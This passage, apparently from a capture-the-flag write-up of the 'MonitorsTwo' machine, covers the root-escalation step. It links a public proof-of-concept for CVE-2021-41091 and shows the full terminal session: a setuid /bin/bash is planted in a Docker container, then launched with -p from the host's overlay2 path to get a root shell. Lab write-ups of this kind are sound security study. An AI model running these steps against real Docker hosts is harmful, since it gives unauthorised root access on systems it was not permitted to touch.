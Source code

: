 ### Perform the escalation

On our SSH connect we can now run the [PoC script](https://github.com/UncleJ4ck/CVE-2021-41091/blob/main/exp.sh), to gain root privileges. The script looks over all overlay2 directories, which are the directories docker uses for their containers, to see if it can find `/bin/bash` with the SUID.

When the script has run we run `/bin/bash -p`  which spawns a new shell, that new shell inherits the elevated privileges (-p) granted by the `setuid` bit on the `/bin/bash` from the container.

```bash
marcus@monitorstwo:/tmp$ ./exp.sh
[!] Vulnerable to CVE-2021-41091
[!] Now connect to your Docker container that is accessible and obtain root access !
[>] After gaining root access execute this command (chmod u+s /bin/bash)

Did you correctly set the setuid bit on /bin/bash in the Docker container? (yes/no): yes
[!] Available Overlay2 Filesystems:
/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged

[!] Iterating over the available Overlay2 filesystems !
[?] Checking path: /var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged
[x] Could not get root access in '/var/lib/docker/overlay2/4ec09ecfa6f3a290dc6b247d7f4ff71a398d4f17060cdaf065e8bb83007effec/merged'

[?] Checking path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[!] Rooted !
[>] Current Vulnerable Path: /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
[?] If it didnt spawn a shell go to this path and execute './bin/bash -p'

[!] Spawning Shell
bash-5.1# exit
marcus@monitorstwo:/tmp$ cd /var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged
marcus@monitorstwo:/var/lib/docker/overlay2/c41d5854e43bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged$ ./bin/bash -p                                                                                        
bash-5.1# whoami
root
bash-5.1# cat /root/root.txt
77**REDACTED**a1
```